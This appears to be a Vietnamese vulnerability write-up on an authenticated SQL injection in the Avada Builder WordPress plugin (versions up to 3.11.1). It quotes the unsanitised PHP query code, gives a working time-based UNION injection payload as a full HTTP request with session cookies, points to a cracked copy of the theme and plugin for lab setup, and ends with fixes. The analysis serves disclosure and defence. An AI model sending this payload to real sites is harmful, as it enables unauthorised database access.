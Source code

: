 # Multiple High and Critical Vulnerabilities in Avada Theme and Plugin

![Alt text](./images/image.png)

- Nhiều lỗ hổng nghiêm trọng tồn tại trong Avada Theme <= 7.11.1 và Avada Builder plugin <= 3.11.1

![Alt text](./images/image-1.png)

### Setup
- Avada Theme 7.8.2
- Avada Builder plugin 3.8.2
- Theme và plugin crack ở đây
[Source](avada.zip)


- Thêm mới theme
![Alt text](./images/image-4.png)
- Như này là được 
![Alt text](./images/image-5.png)
- Thêm mới plugin và add mới
![Alt text](./images/image-2.png)
![Alt text](./images/image-3.png)

## I. Authenticated SQL Injection in Plugin
- Enable Critical CSS để sử dụng được action trong ajax-admin
- Vào Options > Performance > Enable Critical CSS (On) > Save Changes

![Alt text](./images/image-6.png)

![Alt text](./images/image-7.png)

- Generate Critical Css

![Alt text](./images/image-8.png)
- Ảnh là đặt var_dump() vào \$query cho dễ debug

- Lỗ hổng tại hàm wp-content/plugins/fusion-builder/inc/critical-css/class-awb-critical-css-page.php, function ajax_regenerate_css()

- Phần khởi tạo có add action để gọi ajax-admin nhưng cần phải xác thực.

```php
public function __construct() {
    add_action( 'admin_menu', [ $this, 'add_menu_page' ], 12 );
    add_action( 'wp_ajax_awb_search_query', [ $this, 'search_query' ] );
    add_action( 'wp_ajax_awb_critical_new', [ $this, 'ajax_get_urls' ] );
    add_action( 'wp_ajax_awb_bulk_update_css', [ $this, 'ajax_get_bulk_urls' ] );
    add_action( 'wp_ajax_awb_critical_css', [ $this, 'ajax_save_css' ] );
    add_action( 'wp_ajax_awb_regenerate_critical_css', [ $this, 'ajax_regenerate_css' ] );

    if ( is_admin() ) {
        $this->bulk_actions();
    }
}
```

![Alt text](./images/image-9.png)

- Id được lấy từ \$_GET['awb_critical_id']
```php
$id = sanitize_text_field( wp_unslash( $_GET['awb_critical_id'] ) );

$entry = AWB_Critical_CSS()->get(
    [
        'where' => [
            'id' => '"' . $id . '"',
        ],
    ]
);
```

- Hàm get() chỉ thêm một số truy vấn điều kiện chứ không làm sạch biến id.
```php
public function get( $args = [] ) {
    global $wpdb;

    $defaults = [
        'what'     => '*',
        'where'    => [],
        'order_by' => '',
        'order'    => 'ASC',
        'limit'    => '',
        'offset'   => 0,
    ];
    $args     = wp_parse_args( $args, $defaults );

    // The table name.
    $table_name = $wpdb->prefix . $this->table_name;

    // The query basics.
    $query = 'SELECT ' . $args['what'] . " FROM `$table_name`";


    // Build the WHERE fragment of the query.
    if ( ! empty( $args['where'] ) ) {
        $where = [];
        foreach ( $args['where'] as $where_fragment_key => $where_fragment_val ) {
            if ( false === strpos( $where_fragment_val, 'LIKE' ) ) {
                $where[] = "$where_fragment_key = $where_fragment_val";
            } else {
                $where[] = "$where_fragment_key $where_fragment_val";
            }
        }

        $query .= ' WHERE ' . implode( ' AND ', $where );
    }

    // Build the ORDER BY fragment of the query.
    if ( '' !== $args['order_by'] ) {
        $order  = 'ASC' !== strtoupper( $args['order'] ) ? 'DESC' : 'ASC';
        $query .= ' ORDER BY ' . $args['order_by'] . ' ' . $order;
    }

    // Build the LIMIT fragment of the query.
    if ( '' !== $args['limit'] ) {
        $query .= ' LIMIT ' . absint( $args['limit'] );
    }

    // Build the OFFSET fragment of the query.
    if ( 0 !== $args['offset'] ) {
        $query .= ' OFFSET ' . absint( $args['offset'] );
    }

    var_dump($query);


    return $wpdb->get_results( $query ); // phpcs:ignore WordPress.DB
}
```

- Thực hiện union attack với time delay
![Alt text](./images/image-10.png)

- Payload
```php
GET /wordpress/wp-admin/admin-ajax.php?action=awb_regenerate_critical_css&awb_critical_id=1"+union+select+sleep(10),null,null,null,null,null,null+--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694158744%7ClXVo7CI92RXup6lamCqGhl5mFyfqJiXHPX76FpS5I1U%7C0410ef2aa5cf0ac12660fdc07e85b9a838625dd2eb0d76af3a787f062c052b55; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694158744%7ClXVo7CI92RXup6lamCqGhl5mFyfqJiXHPX76FpS5I1U%7C8d15e3344ff93c6bea2bb124dd6ee0b8c2ca31f4b621fba30bac4127b1f32231; wp-settings-time-1=1693985946; testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244
Connection: close

```

- Ở hàm wp-content/plugins/fusion-builder/inc/critical-css/class-awb-critical-css-page.php, function ajax_save_css() cũng tồn tại lỗ hổng sqli tương tự.

![Alt text](./images/image-11.png)

#### Giải pháp
- Cách phòng chống sqli đơn giản cho id là ép kiểu về định dạng muốn.
- Dùng intval() để ép thành kiểu nguyên
![Alt text](./images/image-12.png)

- Dùng esc_sql() của wordpress để escape dấu nháy thành 1 phần của truy vấn và không thể thoát ra câu truy vấn.
![Alt text](./images/image-13.png)

